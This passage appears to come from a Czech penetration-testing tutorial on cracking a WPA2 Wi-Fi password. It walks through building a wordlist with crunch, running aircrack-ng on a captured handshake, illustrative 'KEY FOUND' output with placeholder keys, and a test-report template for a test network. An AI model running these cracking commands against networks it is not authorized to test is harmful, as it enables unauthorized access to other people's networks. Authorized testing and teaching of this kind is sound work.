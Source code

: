### 6.2 Generování wordlistu
```bash
crunch 8 8 -t @@@@@@@@ -o wordlist.txt
```

Parametry:
- 8 8: Minimální a maximální délka hesla
- -t @@@@@@@@: Šablona (8 znaků)
- -o wordlist.txt: Výstupní soubor

### 6.3 Vytvoření vlastního wordlistu
```bash
echo "test123456" >> wordlist.txt
echo "password123" >> wordlist.txt
echo "qwerty123" >> wordlist.txt
```

## 7. Crackování hesla

### 7.1 Spuštění crackování
```bash
sudo aircrack-ng -w wordlist.txt handshake-01.cap
```

### 7.2 Interpretace výstupu
```
                               Aircrack-ng 1.6

      [00:00:00] 3/3 keys tested (100.00%)

      KEY FOUND! [ test123456 ]

      Master Key     : 11 22 33 44 55 66 77 88 99 AA BB CC DD EE FF 00
      Transient Key  : 11 22 33 44 55 66 77 88 99 AA BB CC DD EE FF 00
      EAPOL HMAC     : 11 22 33 44 55 66 77 88 99 AA BB CC DD EE FF 00
```

## 8. Analýza výsledků

### 8.1 Dokumentace testu
```
Datum: [datum]
Čas: [čas]
Testovaná síť: Testovaci_Sit
BSSID: 00:11:22:33:44:55
Kanál: 6
Šifrování: WPA2
Doba crackování: [čas]
Použitý wordlist: wordlist.txt
Nalezené heslo: test123456
```
